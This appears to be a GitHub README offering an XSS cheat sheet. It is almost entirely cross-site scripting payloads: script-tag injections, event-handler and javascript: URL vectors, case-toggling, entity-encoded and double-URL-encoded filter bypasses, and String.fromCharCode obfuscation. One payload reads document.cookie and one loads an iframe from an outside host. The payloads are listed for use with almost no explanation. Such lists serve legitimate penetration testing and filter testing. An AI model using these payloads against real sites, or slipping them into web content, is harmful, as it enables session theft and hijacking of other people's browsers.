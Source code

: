 # Xss-cheat-sheet
<h2>These are some of the Xss (Cross-Site-Scripting) payloads.</h2>
<a href="https://portswigger.net/web-security/cross-site-scripting">What is Cross-Site-Scripting?</a>

Basic XSS codes:
<p>———————————-<p>

    ```<script>alert(“XSS”)</script>```

    ```<script>alert(“XSS”);</script>```

    ```<script>alert(‘XSS’)</script>```
    
   ```“><script>alert(“XSS”)</script>```

    ```<script>alert(/XSS”)</script>```

    ```<script>alert(/XSS/)</script>```

When inside Script tag:
<p>———————————</p>

    ```</script><script>alert(1)</script>```
    ```‘; alert(1);```
    ```‘)alert(1);//```

Bypassing with toggle case:
<p>————————————–</p>

     ```<ScRiPt>alert(1)</sCriPt>```
      ```<IMG SRC=jAVasCrIPt:alert(‘XSS’)>```

XSS in Image and HTML tags:
<p>———————————————</p>

    ```<IMG SRC=”javascript:alert(‘XSS’);”>```
   ```<IMG SRC=javascript:alert(&quot;XSS&quot;)>```
    ```<IMG SRC=javascript:alert(‘XSS’)>```      

    ```<img src=xss onerror=alert(1)>```
    ```<IMG “””><SCRIPT>alert(“XSS”)</SCRIPT>”>```
    ```<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>```
    ```<IMG SRC=”jav ascript:alert(‘XSS’);”>```

    ```<IMG SRC=”jav&#x09;ascript:alert(‘XSS’);”>```

    ```<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>```

    ```<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>```

    ```<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>```

    ```<BODY BACKGROUND=”javascript:alert(‘XSS’)”>```

    ```<BODY ONLOAD=alert(‘XSS’)>```
    ```<INPUT TYPE=”IMAGE” SRC=”javascript:alert(‘XSS’);”>```
    ```<IMG SRC=”javascript:alert(‘XSS’)”```

   ```<iframe src=http://ha.ckers.org/scriptlet.html <```

Bypass the script tag filtering:
<p>————————————————–</p>

    ```<<SCRIPT>alert(“XSS”);//<</SCRIPT>```

    ```%253cscript%253ealert(1)%253c/script%253e```

    ```“><s”%2b”cript>alert(document.cookie)</script>```

    ```foo<script>alert(1)</script>```

    ```<scr<script>ipt>alert(1)</scr</script>ipt>```

Using String.fromCharCode function:
<p>—————————————————–</p>

    ```<SCRIPT>String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41)</SCRIPT>```

    ```‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>```
